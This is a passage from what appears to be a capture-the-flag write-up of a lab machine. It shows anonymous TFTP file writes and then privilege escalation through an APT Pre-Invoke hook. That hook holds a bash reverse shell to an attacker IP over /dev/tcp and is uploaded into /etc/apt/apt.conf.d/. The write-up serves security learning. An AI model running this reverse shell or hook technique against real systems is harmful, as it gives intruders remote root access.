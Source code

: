 ### Exploiting TFTP
We realize that we can authenticate to tftp without any credentials. However, we notice that tftp does not have the ability to list out files and directories.

```
root@Inception:/tmp# tftp 192.168.0.1
tftp> ls
?Invalid command
```

Next, we will try if tftp has the ability to write files. We notice that the write operation is successful and listing the /home directory using the FTP service, we realize that the test.txt file has been written in the /home directory.

```
tftp> put test.txt /home/test.txt
Sent 6 bytes in 0.0 seconds
------------------------------------------------
root@Inception:/tmp# ftp 192.168.0.1
Connected to 192.168.0.1.
220 (vsFTPd 3.0.3)
Name (192.168.0.1:cobb): anonymous
331 Please specify the password.
Password:
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> cd /home
250 Directory successfully changed.
ftp> ls
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
-rw-rw-rw-    1 0        0               5 May 27 03:35 test.txt
226 Directory send OK.
ftp> 
```

### Exploiting apt update
Using the tutorial from [here](https://www.cyberciti.biz/faq/debian-ubuntu-linux-hook-a-script-command-to-apt-get-upgrade-command/), we can hook a script command during the ```apt update```. Since we know that ```apt update``` command runs every 5mins, we can use this exploit to create a reverse shell

Next, we will craft a reverse shell command and save the file in the /tmp directory

```
root@Inception:/tmp# cat exploit
APT::Update::Pre-Invoke {"bash -c 'bash -i >& /dev/tcp/10.10.16.6/4000 0>&1'"}
```

Next, we will move the exploit script to the /etc/apt/apt.conf.d/ directory using tftp

```
tftp> put /tmp/exploit /etc/apt/apt.conf.d/exploit 
Sent 80 bytes in 0.0 seconds
```
